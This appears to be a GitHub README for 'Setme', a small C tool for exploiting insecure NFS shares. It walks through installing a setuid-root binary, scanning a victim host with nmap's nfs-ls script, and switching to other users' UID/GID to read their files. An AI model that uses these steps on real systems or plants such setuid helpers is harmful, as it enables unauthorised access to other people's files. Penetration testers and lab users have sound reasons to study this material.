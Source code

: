 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from Linux host.**  
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories.
##

**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**  
Then:  
sudo chown root:root ./setMe && sudo chmod gu+s ./setMe

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you know that since your a pro.

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex  
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff  
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs
  
Say we want to get into **mikes files**, we execute our binary with:  
**./setME 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


